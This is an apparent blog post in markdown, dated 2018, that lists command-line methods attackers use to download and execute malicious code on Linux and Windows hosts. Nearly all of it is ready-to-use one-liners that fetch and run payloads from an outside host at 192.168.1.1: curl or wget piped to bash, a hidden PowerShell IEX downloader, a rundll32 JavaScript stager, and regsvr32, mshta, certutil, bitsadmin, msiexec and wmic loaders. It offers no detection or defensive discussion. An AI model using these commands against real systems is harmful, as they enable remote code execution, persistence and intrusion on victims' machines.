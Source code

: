 ```yaml
---
title: "Several methods to download and execute malicious code through command"
date: "2018-01-03T13:15:30Z"
description: "The execution of malicious code on the target host can be divided into uploading/downloading and executing malicious code and fileless remote malicious code execution. Next, let's summarize some methods of downloading and executing malicious code in Linux and Windows."
tags:
  - "Shell"
  - "Cybersecurity"
  - "Penetration test"
---
```


In the process of infiltration, attackers often need to download and execute malicious code through commands to implement operations such as information collection, persistence, privilege enhancement, defense bypass, extraction of credentials, lateral movement, and data exfiltration.

The execution of malicious code on the target host can be divided into uploading/downloading and executing malicious code and fileless remote malicious code execution. Next, let's summarize some methods of downloading and executing malicious code in Linux and Windows.


## Linux 
#### curl
Execute the shell script on the http page in `curl`, without downloading, directly execute on the local machine.
```shell
bash < <( curl http://192.168.1.1:8000/test.sh  )
curl -fsSL http://192.168.1.1:8000/test.sh | bash
```

#### wget
Execute the `wget` command to download malicious programs remotely.

```shell
wget -q -O- http://192.168.1.1:8000/test.sh | bash
wget http://192.168.1.1:8000/shell.txt -O /tmp/x.php && php /tmp/x.php
```

Combine `curl`+`wget` to realize fileless remote malicious code execution.

```shell
bash -c '(curl -fsSL http://192.168.1.1:8000/test.sh||
wget -q -O- http://192.168.1.1:8000/test.sh)|bash -sh >/dev/null 2>&1&'
```

#### rcp
The `rcp` command is used to copy remote files or directories.
```shell
rcp username@servername:./testfile testfile
```


#### sftp

Use `sftp` to download files on the remote server.

```shell
sftp admin@192.168.1.1 <<EOF  
get  /tmp/1.txt            
quit 
EOF
```

#### scp
`scp` is an enhanced version of `rcp`, `scp` is encrypted, `rcp` is not encrypted.

```shell
scp username@servername:/path/filename /tmp/local_destination
```
#### rsync
Use `rsync` to synchronize remotely and pull files to a local server.
```shell
rsync -av servername:/tmp/passwd.txt  /tmp/passwd.txt
```


## Windows 

#### Powershell
Use powershell to remotely execute ps1 scripts.
```shell
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.1/evil.txt'))"
```


#### rundll32
Using `rundll32.exe`, JavaScript can be executed through `mshtml.dll`, which depends on the `WScript.shell` component

```shell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.1.1:8000/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

#### bitsadmin
Use the `bitsadmin` command to download the file to the target machine.
```shell
bitsadmin /transfer n http://192.168.1.1/imag/evil.txt d:\test.txt
```

#### certutil
It is used to back up the certificate service. Generally, it is recommended to delete the cache after downloading the file.

```shell
certutil -urlcache -split -f http://192.168.1.1/imag/evil.txt test.php
certutil -urlcache -split -f http://192.168.1.1/imag/evil.txt delete
```

#### regsvr32
Remote load execution, parse the `.src` file.

```shell
regsvr32.exe /u /n /s /i:http://192.168.1.1:8000/file.sct scrobj.dll
```





#### pubprn.vbs
There is a Microsoft signed WSH script named `pubprn.vbs` in Windows 7 and above, which can be used to parse the `.sct` script:

```shell
"C:\Windows\System32\Printing_Admin_Scripts\en\pubprn.vbs" 127.0.0.1 script:https://servername/test.sct
```


#### wmic
Execute the following `WMIC` command to download and run the malicious XSL file from the remote server:
```shell
wmic os get /FORMAT:"http://192.168.1.1/evil.xsl"
```

#### msiexec
It is used to install the Windows Installer installation package and can execute the msi file remotely.

```shell
msiexec /q /i http://192.168.1.1/evil.msi
```


#### msxsl

`msxsl.exe` is a program used by Microsoft to process XSL under the command line

```shell
msxsl http://192.168.1.1/scripts/demo.xml http://192.168.1.1/scripts/exec.xsl
```

#### IEExec
The `IEexec.exe` application is a program that comes with the .NET Framework. Run `IEExec.exe` and use url to start other programs.

```shell
crosoft.NET\Framework64\v2.0.50727>caspol.exe -s off
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.1.1/evil.exe
```

#### mshta
`mshta` is used to execute `.hta` files
```shell
mshta http://192.168.1.1/run.hta
```
